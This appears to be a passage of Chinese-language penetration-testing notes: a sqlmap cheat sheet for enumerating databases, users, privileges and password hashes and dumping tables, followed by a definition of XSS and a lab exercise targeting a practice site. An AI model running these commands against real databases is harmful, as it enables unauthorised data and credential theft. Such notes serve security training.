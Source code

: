 ```bash
sqlmap -u URL/-r xxx.txt --current-db          # 获取当前数据库
sqlmap -u URL/-r xxx.txt --dbs                 # 枚举所有数据库
sqlmap -u URL/-r xxx.txt -f                    # 检查 DBMS 版本
sqlmap -u URL/-r xxx.txt --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL/-r xxx.txt --users               # 列出数据库管理系统用户
sqlmap -u URL/-r xxx.txt --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL/-r xxx.txt --passwords           # 获取当前数据库密码

sqlmap -u URL/-r xxx.txt -D DATABASE --tables  # 获取数据库表
sqlmap -u URL/-r xxx.txt -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL/-r xxx.txt -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL/-r xxx.txt -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL/-r xxx.txt --dump-all            # 列出所有数据库,所有表内容

```

---

## XSS

由于web应用程序对用户的输入过滤不严产生的。攻击者利用网站漏把恶意的脚本代码注入到网页中，当用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采用cookie资料窃取，会话劫持，钓鱼欺骗等攻击手段。

<p align="center"><img src="img/1/39.png" width="800px"></p>

```bash
==============渗透测试靶机环境=============

渗透测试靶场：

目标：对靶场输入框进行XSS攻击，直到执行恶意代码。

网站: http://1.117.43.77/vulnerabilities/xss_r/

工具: BURP

================正式开式================
```
